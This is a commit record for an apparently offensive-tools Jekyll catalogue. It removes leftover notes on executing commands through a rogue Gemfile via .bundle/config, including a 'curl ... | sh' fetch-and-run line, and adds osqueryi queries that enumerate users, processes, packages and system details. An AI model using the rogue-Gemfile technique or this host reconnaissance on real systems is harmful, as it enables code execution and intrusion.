

Before and after one commit to 0xAnalyst/Project-Lost, a Jekyll site: the page built from _tool/OSQuery.md, in a window 1280 px wide, cut to the strip 0-970 px from the top of the page. Shown: the whole strip, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Update OSQuery.md

````diff
--- a/_tool/OSQuery.md
+++ b/_tool/OSQuery.md
@@ -3,38 +3,37 @@
 tags:
 - Enum
 - Exec
-- config-file
 references:
-- https://bundler.io/v2.5/man/bundle-config.1.html
-files: ['Gemfile', '*.gemspec*', '.bundle/config']
-purl: pkg:gem/bundler
+- https://osquery.readthedocs.io/en/latest/
+files: [ 'osqueryi']
 ---
 
 osquery is an operating system instrumentation framework for Windows, OS X (macOS), and Linux. The tools make low-level operating system analytics and monitoring both performant and intuitive..
 
-```Enumerate users
+**Enumerate users**
+```
 osqueryi --json "SELECT username, description, sid, directory FROM users;"
 ```
-
-
-
-If the Gemfile cannot be modified, Bundler can use a local configuration in `.bundle/config` that allows changing the path of the Gemfile.
-
-```yaml
----
-BUNDLE_GEMFILE: "NotGemfile"
-BUNDLE_PATH: "vendor/bundle"
-BUNDLE_DEPLOYMENT: "true"
+**Enumerate System Information**
+```osqueryi --json "
+SELECT 'os_version' AS category, * FROM os_version
+UNION ALL
+SELECT 'cpu_info' AS category, * FROM cpu_info
+UNION ALL
+SELECT 'memory_info' AS category, * FROM memory_info
+UNION ALL
+SELECT 'block_devices' AS category, * FROM block_devices
+UNION ALL
+SELECT 'interface_details' AS category, * FROM interface_details
+UNION ALL
+SELECT 'processes' AS category, pid AS id, name, path FROM processes LIMIT 5
+UNION ALL
+SELECT 'logged_in_users' AS category, * FROM logged_in_users
+UNION ALL
+SELECT 'packages' AS category, * FROM packages LIMIT 5
+UNION ALL
+SELECT 'uptime' AS category, * FROM uptime
+UNION ALL
+SELECT 'system_info' AS category, hostname, cpu_brand, physical_memory FROM system_info;
+"
 ```
-
-The rogue Gemfile `NotGemfile` can then be used to execute commands:
-```ruby
-
-# Execute arbitrary commands
-system("curl ... | sh")
-
-# Optional: load the original Gemfile to avoid errors
-eval_gemfile "Gemfile"
-```
-
-Note: Bundler configuration properties defined in `$HOME/.bundle/config` and in environment variables have precedence over the local configuration file.
````
